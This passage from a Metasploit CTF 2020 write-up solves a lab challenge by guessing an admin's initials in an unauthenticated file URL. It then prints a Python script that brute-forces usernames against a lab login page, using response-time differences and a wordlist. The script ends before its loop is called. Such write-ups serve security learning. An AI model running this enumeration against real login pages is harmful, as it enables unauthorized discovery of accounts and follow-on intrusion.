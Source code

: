 On signing up we first get the notes directory. 

{{< image src="/img/metasploitctf2020/port6868_1.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

On the home page, there are images which are hosted under files directory with different users initials.

{{< image src="/img/metasploitctf2020/port6868_2.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

Since there's no authentication we can try look at notes for each of the discovered users.

**BD**:

{{< image src="/img/metasploitctf2020/port6868_4.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

**TW**:

{{< image src="/img/metasploitctf2020/port6868_5.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

**MC**:

{{< image src="/img/metasploitctf2020/port6868_6.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

From the above notes we can tell that there's a site admin whose name is *Beth Ulysses Denise Donnoly Yager*, this creates the initials
*BUDDY*. 

We can then get the flag with these initials at the url ```http://172.15.18.101:6868/files/BUDDY/2```.

**Flag**:

{{< image src="/img/metasploitctf2020/6_of_hearts.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

### 3 of Spades

To solve this one we are required to identify a valid username aside from guest. When you submit guest which is a valid username, the 
request takes about 5 seconds to complete but if you supply a non-valid username it takes less than a second. The password doesn't 
matter.

{{< image src="/img/metasploitctf2020/port8080.png" alt="metasploit_ctf_2020" position="center" style="border-radius: 8px;" >}}

I created a python script to bruteforce the username with a wordlist:

```py
import requests

url = "http://172.15.18.101:8080/login.php"

user = "guest"
f = open('/usr/share/seclists/Usernames/cirt-default-usernames.txt','r')
users = f.readlines()
f.close()
def guess(username):
    print("Testing username: " + username +"...")
    data = {"username":username,"password":"test"}
    r = requests.post(url, data=data)
    response_time = r.elapsed.total_seconds()

    if response_time > 4:
        print("Valid user found: " + username)
        exit()

```